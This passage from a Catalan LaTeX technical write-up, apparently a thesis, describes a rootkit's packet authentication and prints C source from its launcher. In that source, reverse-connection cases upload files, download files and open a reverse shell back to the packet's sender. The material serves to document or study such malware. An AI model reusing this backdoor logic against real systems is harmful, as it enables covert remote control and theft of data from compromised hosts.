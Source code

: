 La primera comprobació que es fa, és la del tamany de paquet. Si el tamany de paquet rebut no és exactament
la dels nostres paquets, aquest paquet ja pot ser descartat. Gràcies a això, podem descartar la majoria de 
paquets que no van destinats al rootkit. En cas que un paquet ocupi exactament com els nostres paquets, 
caldrà comprobar si es tracta d'un paquet autenticat amb la contrasenya escollida en el moment de la 
compilació (CLIENTAUTH) o si es tracta d'una comprobació per veure si el rootkit està instal·lat o no 
(independentment de coneixer la contrasenya o no). \\

Un cop ens arribi un paquet autenticat, d'aquest se li extreu el típus d'acció a executar.

\subsubsection{Mode de comunicació REV}
En cas que en el paquet rebut es soliciti realitzar una acció de tipus reversa, el primer que caldrà fer
és establir una connexió amb l'origen del paquet. \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYay[case] REVUPLOAD:
	@PYay[if] (fork()) @PYay[return];
    debug(@PYaB["]@PYaB[Reverse uploading file]@PYao[\n]@PYaB["]);
    @PYay[if] ((sock @PYbe[=] launcher_rcon(ip@PYbe[-]@PYbe[>]s_addr, d@PYbe[-]@PYbe[>]port))) {
        launcher_upload(sock, sock, (@PYaJ[char] @PYbe[*])d@PYbe[-]@PYbe[>]bytes, d@PYbe[-]@PYbe[>]size);
        close(sock);
    }
    @PYay[break];
@PYay[case] REVDOWNLOAD:
	@PYay[if] (fork()) @PYay[return];
    debug(@PYaB["]@PYaB[Reverse downloading file]@PYao[\n]@PYaB["]);
    @PYay[if] ((sock @PYbe[=] launcher_rcon(ip@PYbe[-]@PYbe[>]s_addr, d@PYbe[-]@PYbe[>]port))) {
        launcher_download(sock, sock, (@PYaJ[char] @PYbe[*])d@PYbe[-]@PYbe[>]bytes, d@PYbe[-]@PYbe[>]size);
        close(sock);
    }
    @PYay[break];
@PYay[case] REVSHELL:
	@PYay[if] (fork()) @PYay[return];
    debug(@PYaB["]@PYaB[Launching reverse shell]@PYao[\n]@PYaB["]);
    @PYay[if] ((sock @PYbe[=] launcher_rcon(ip@PYbe[-]@PYbe[>]s_addr, d@PYbe[-]@PYbe[>]port))) {
        launcher_shell(sock, sock);
        close(sock);
    }
    @PYay[break];
\end{Verbatim}
    \caption{launcher.c::do\_action()}
    \label{fig:launcer_do_rev_action}
\end{figure}

